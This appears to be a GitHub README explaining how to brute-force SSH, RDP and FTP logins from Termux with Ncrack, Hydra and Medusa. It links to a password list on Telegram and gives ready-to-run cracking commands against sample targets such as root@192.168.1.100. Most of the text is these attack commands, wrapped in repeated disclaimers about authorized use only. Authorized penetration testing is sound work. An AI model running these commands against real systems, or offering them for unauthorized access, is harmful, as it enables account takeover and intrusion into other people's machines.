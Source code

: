 # Termux-Bruteforce
[How to Bruteforce a Network Services such as SSH, HTTP, FTP, Telnet, IMAP, SMB]


PASSWORD.TXT file can be found in Telegram Channel with link 👇👇
https://t.me/VPNConFiles/1330

Or Download directly from here
[Download](Password_.txt)

As a Novice, I cannot promote or suggest any illegal or unethical activities that may harm any individual or organization. It is important to use technology, tools, and information only for ethical and lawful purposes, in compliance with local and international laws and regulations. It is recommended to use tools like Bruteforce only for authorized and legitimate purposes, such as testing the security of your own systems or with written permission from the systems owners. Using such tools for any illegal or unethical purposes without proper authorization can result in severe legal penalties and consequences.






If you have the appropriate authorization to perform a bruteforce attack on a system, then you can use the following tools on Termux:

**1. Hydra:** It is a fast and flexible login cracker which supports various protocols, including *HTTP, FTP, Telnet, IMAP*, etc.


**2. Medusa:** It is a command-line tool that runs on Linux, macOS, and Termux. It is designed to test the security of password-protected services, such as *FTP, SSH, IMAP*, etc.


**3. Ncrack:** It is a high-speed network authentication cracking tool which can be used to test the security of network services, such as *SSH, HTTP, SMB*, etc.


However, please note that bruteforcing any system without proper authorization is illegal and unethical and can result in severe legal penalties and consequences. Ensure that you have written permission from the systems owners to test the security.



**Here are some examples of using Ncrack on Termux:**



**[How to Setup NCRACK in Termux](https://github.com/okyerejosephokraku60/Ncrack)**

**1. Ncrack with SSH:**
To perform a bruteforce attack on an SSH server with Ncrack, use the following command:

```
ncrack -v -p 22 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 22 --user root -P passwords.txt 192.168.1.100
```

**2. Ncrack with RDP:**
To perform a bruteforce attack on an RDP server with Ncrack, use the following command:

```
ncrack -v -p 3389 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an RDP server with IP address 192.168.1.100 and username administrator, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 3389 --user administrator -P passwords.txt 192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.







**Here are some examples of using Hydra on Termux:**

**[How to Setup HYDRA in Termux](https://github.com/okyerejosephokraku60/Hydra)**

**1. Hydra with SSH:**
To perform a bruteforce attack on an SSH server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ssh://<target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
hydra -l root -P passwords.txt ssh://192.168.1.100
```

**2. Hydra with FTP:**
To perform a bruteforce attack on an FTP server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ftp://<target_ip>
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.









**Here are some examples of using Medusa on Termux:**

**[How to Setup MEDUSA in Termux](https://github.com/okyerejosephokraku60/Medusa)**

**1. Medusa with SSH:**
To perform a brute-force attack on an SSH server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ssh
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
medusa -u root -P passwords.txt -h 192.168.1.100 -M ssh
```

**2. Medusa with FTP:**
To perform a brute-force attack on an FTP server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ftp
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
medusa -u admin -P passwords.txt -h 192.168.1.100 -M ftp
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.
